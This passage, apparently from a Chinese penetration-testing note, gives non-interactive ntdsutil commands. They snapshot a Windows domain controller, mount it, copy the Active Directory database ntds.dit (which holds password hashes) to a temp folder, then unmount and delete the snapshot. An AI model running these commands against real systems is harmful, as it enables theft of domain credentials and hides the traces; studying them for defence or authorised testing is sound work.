 ![](./pic/5/7.jpg)  
做完后unmount然后需要再delet一下    
![](./pic/5/8.jpg)   
b.非交互   
```
>
>ntdsutil snapshot "activate instance ntds" create quit quit
>ntdsutil snapshot "mount {GUID}" quit quit
>copy MOUNT_POINT\windows\ntds\ntds.dit c:\temp\ntds.dit
>ntdsutil snapshot "unmount {GUID}" "delete {GUID}" quit quit
>
```
![](./pic/5/9.jpg)   
